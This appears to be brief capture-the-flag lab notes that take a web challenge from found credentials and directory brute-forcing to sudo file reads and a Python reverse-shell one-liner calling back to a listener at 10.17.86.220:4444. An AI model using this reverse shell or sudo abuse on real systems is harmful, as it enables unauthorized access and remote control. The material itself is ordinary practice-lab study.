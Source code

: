 # Web page source:

username : R1ckRul3s


dirbruteforcing - 
index.html
robots.txt
server-status
login.php

# robots.txt
Wubbalubbadubdub - password


# cat command is blocked so use less

# www-data is part of sudo group

sudo ls /root
sudo less /root/3rd.txt


### Method 2 via reverse shell

# local system
nc -lvnp 4444

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.17.86.220",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'





